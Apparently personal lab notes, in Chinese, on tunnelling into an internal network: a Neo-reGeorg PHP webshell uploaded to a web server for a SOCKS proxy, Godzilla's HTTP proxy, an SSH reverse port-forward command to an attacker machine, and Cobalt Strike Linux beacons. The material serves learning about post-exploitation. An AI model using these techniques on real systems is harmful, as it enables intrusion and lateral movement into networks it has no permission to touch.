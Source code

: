 
# 隧道技术 http ssh

ssh目前只能通讯，不能上线，目前没有c2工具能利用ssh上线。     [192.168.2.11](http://192.168.2.11/) 192.168.139.222 都是web机。


# http
http隧道上线一般意义不大，能通过http上线就能通过正反向上线

![1732609043452](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942064.png)

在情况1下，无法通过c2上线控制web机。因为入站只有web端口：80或者443，这两个端口都被占用，所以只能通过webshell工具来控制web机，而且也没有办法通过Web机控制sql，因为web的出站被限制。所以就需要通过隧道技术来实现让sql跟web机连接        这里是通过Web来建立隧道获取sql机上的有价值信息

  看防火墙配置，这里本机只能访问192.168.139.222       2.11 和 2.22 都访问不到     同一个网段好像可以不用看防火墙就能访问，不在同一个网段就得看防火墙策略。

eg: 192.168.139.1 可以访问192.168.139.2     如果192.168.139.2还有一个网段是192.168.2.2  那么192.168.139.1访问192.168.2.2 是访问不到的

![1732618408454](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942065.png)

![1732619300723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942066.png)

  HTTP隧道搭建内网穿透    Neo-reGeorg-5.2.0工具使用说明，现在是用工具脚本创建一个socks代理。

![1732617986195](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942067.png)

这里将刚才用工具生成的php后门上传到可以通讯的web服务器192.168.139.222  上：

![1732618278013](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942068.png)

socks代理：

![1732618686942](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942069.png)

配置代理------Proxifier

![1732618847723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942070.png)

然后就访问成功：

![1732619184404](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942071.png)

隧道实现成功

  哥斯拉，冰鞋；冰鞋：本机用隧道技术实现将目标端口（sql）80转发到本地端口2222上，先在本地上线到可以通讯的web机上，然后在信息收集到sql机，利用内网穿透，隧道技术实现

冰鞋复现失败，虚拟机问题：

![1732624362316](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942072.png)

   哥斯拉

端口映射，本地访问远程端口数据 主动转发出来  建立socks代理，连接socks对内网穿透

这里关闭刚才的socks和Proxifier代理：

![1732624587566](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942073.png)

然后哥斯拉连接上web，使用httpProxy：

##### ![1732624748652](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942074.png)

配置代理，访问192.168.2.22   成功

![1732624869350](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942075.png)

  上线c2

http一般不用来上线，http能上线的话，那么正反向也可以用来上线，一般都会用正反向来实现上线。http隧道一般用来信息收集，主要还是因为http在tcp层。

   ssh

​    首先是被控机跟目标机之间能通讯、让被控机(kali2)将内网机(sql)的80端口流量转发到攻击机(kali)上的1234端口，这里就是攻击机访问自己的1234端口，就等于被控机访问内网机的80端口。不过这里需要配置好环境，在腾讯文档中                                                                                           		ssh -CfNg -R 攻击机端口:内网目标机IP:80 root@攻击机ip                     

  	cs工具默认不支持linux mac  ios andior等这些机器上线，这里需要用到插件才支持这些操作系统上线，用插件生成后门文件后上传到目标系统机上执行。

先将两个文件上传到cs服务器，在向cs里导入脚本：

![1732625412067](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942076.png)

配置生成：

![1732625591959](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942077.png)

在事件日志这儿会有生成后门文件的命令：

![1732625633943](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942078.png)

生成后门，这里是生成的linux系统的上线文件：

![1732625793578](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942079.png)

执行上线文件，成功linux系统（kali ）上线：

![1732625831874](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942080.png)
